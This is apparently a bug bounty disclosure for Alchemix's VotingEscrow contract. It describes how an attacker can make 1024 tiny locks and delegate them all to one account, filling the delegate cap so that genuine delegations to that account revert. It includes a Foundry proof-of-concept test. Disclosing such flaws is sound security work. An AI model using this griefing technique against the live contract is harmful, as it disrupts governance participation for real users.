 
# Griefing an account from getting votes delegated to it

Submitted on Sun May 05 2024 03:56:52 GMT-0400 (Atlantic Standard Time) by @Shahen for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30704

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
Assume there's three addresse's (Bob,Alex and Maya). Maya got `1e18` of `bpt tokens` which she locked in `VotingEscrow` contract and received a tokenId of the created `veALCX`. Maya is hoping to delegate her votes to Alex now. But Bob is a malicious actor, He locks `0.0000001 ether of bpt` in the `VotingEscrow` contract 1024 times.Therefore bob recieves 1024 tokenId's for a total of `0.0001024 ether of bpt` locked. 

Now bob delegates his votes from each of his tokenId's to Alex,So alex got votes from 1024 tokenId's. So what bob have done here is a grief, If you look at line 1110 under ` _moveAllDelegates()` internal function. There's a require condition that checks the total number of delegates the destioation(dst) has and if its <= `MAX_DELEGATES` which is 1024.  So since bob delegated votes from 1024 tokenId's to Alex, When Maya tries to delegate votes from her tokenId that she received from locking `1e18`, The delegation will revert as the require statement fails. So this is how bob griefed Alex from getting votes delegated to him. Basically bob used his `0.0001024*10**18 bpt` total locked deposit to grief Alex, But bob can use any amount less than `0.0001024*10**18 bpt`,I just used that in the test. Ofcourse Alex would be able to delegate and clear out the unworthy votes sent by bob,But Bob can do the griefing again.

Please refer to the below Foundry POC demonstrating the explained scenario.

## Vulnerability Details
Same as the Brief/Intro

## Impact Details
A malicious actor can grief another address from getting votes delegated to it by maxing out the `MAX_DELEGATES` limit. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

        
## Proof of concept
## Proof of Concept

Paste the below testfile under src/test and run.

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingEscrowGriefTest is BaseTest {
    uint256 internal constant THREE_WEEKS = 3 weeks;
    address bob = address(0x1); // Griefer
    address alex = address(0x2); // victim
    address maya = address(0x3);

    function setUp() public {
        setupContracts(block.timestamp);
    }

    
   
    
    function test_delegate_grief() public {

// 1.) Bob has 0.0001024 bpt.

        hevm.startPrank(bob);
        deal(bpt,bob,0.0001024 ether);
        IERC20(bpt).approve(address(veALCX), 0.0001024 ether);
        
// 2.) Bob aquires multiple tokenId's by locking 0.0000001 bpt * 1024 times, So in total bob got <1024 tokenId's. 
// 3.) Since bob now has greater than or equal to 1024 tokenId's,Bob delegates votes from all of his tokenId's to Alex.    
        
        
        for (uint i = 0; i < 1024; i++) {
            uint256 tokenId = veALCX.createLock(0.0000001 ether, THREE_WEEKS, false);
            assertEq(veALCX.ownerOf(tokenId), bob);
            veALCX.delegate(alex);

        }

        
    

        hevm.stopPrank();
// 4.) Now Maya who locked 1e18 worth of bpt tries to delegate vote to alex.
// 5.) But the delegation revert as there's a limit of 1024 max delegates per dst account.
// 6.) Basically Bob delegated votes to Alex from 1024 different tokenId's, And since theres a max delagate limit of 1024,No one would be able to delegate votes to alex.
// 7.) This way Bob griefed Alex by getting votes delegated to him.
        hevm.startPrank(maya);
        deal(bpt,maya,1e18);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 tokenId = veALCX.createLock(1e18, THREE_WEEKS, false);
        assertEq(veALCX.ownerOf(tokenId), maya);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(alex);
        hevm.stopPrank();
        

        
    }

    
}

